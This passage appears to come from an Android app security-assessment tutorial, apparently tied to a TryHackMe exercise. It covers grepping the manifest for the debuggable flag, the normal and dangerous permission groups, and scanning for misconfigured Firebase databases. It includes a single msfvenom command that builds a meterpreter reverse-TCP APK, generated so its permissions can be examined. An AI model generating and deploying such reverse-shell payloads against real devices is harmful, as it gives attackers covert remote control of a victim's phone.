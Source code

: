How identify this?

With your favorite editor of text. Gedit/Vim/subl, etc… open the AndroidManifest.xml or use cat and grep.
![image](https://user-images.githubusercontent.com/89842187/134048885-eca512c3-fded-45e8-a638-fdc8dbee3932.png)

```
  cat AndroidManifest.xml | grep "android:debuggable" --color

  ```
![image](https://user-images.githubusercontent.com/89842187/134048949-74040f41-49da-440a-a144-4a47f14622f1.png)


## App Permissions: 
  
System permissions are divided into two groups: “normal” and “dangerous.” Normal permission groups are allowed by default, because they don’t pose a risk to your privacy. (e.g., Android allows apps to access the Internet without your permission.) Dangerous permission groups, however, can give apps access to things like your calling history, private messages, location, camera, microphone, and more. Therefore, Android will always ask you to approve dangerous permissions.

In earlier versions of Android, accepting potentially dangerous permission groups was an all-or-nothing affair. You either allowed all permissions an app needed to function — before installation — or you declined them all, which meant you couldn’t install the app.
  
 ```
  msfvenom -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 R > /root/tryhackme.apk

  ```

I going to analyze the permissions of an apk app generated by metasploit.

  Okay, HOW?

With your favorite editor of text. Gedit/Vim/subl, etc… open the AndroidManifest.xml or use cat and grep.
  
  ![image](https://user-images.githubusercontent.com/89842187/134049014-0a5da1a1-b811-498d-ba22-de42990934f3.png)

  
## Firebase Instance(s): 
  
Last year, security researchers have discovered unprotected Firebase databases of thousands of iOS and Android mobile applications that are exposing over 100 million data records, including plain text passwords, user IDs, location, and in some cases, financial financial records such as banking and cryptocurrency transactions.

Google's Firebase service is one of the most popular back-end development platforms for mobile and web applications that offers developers a cloud-based database, which stores data in JSON format and synced it in the real-time with all connected clients.

How identify this? 

FireBase Scanner, The scripts helps security analsts to identify misconfigured firebase instances.

git clone https://github.com/shivsahni/FireBaseScanner

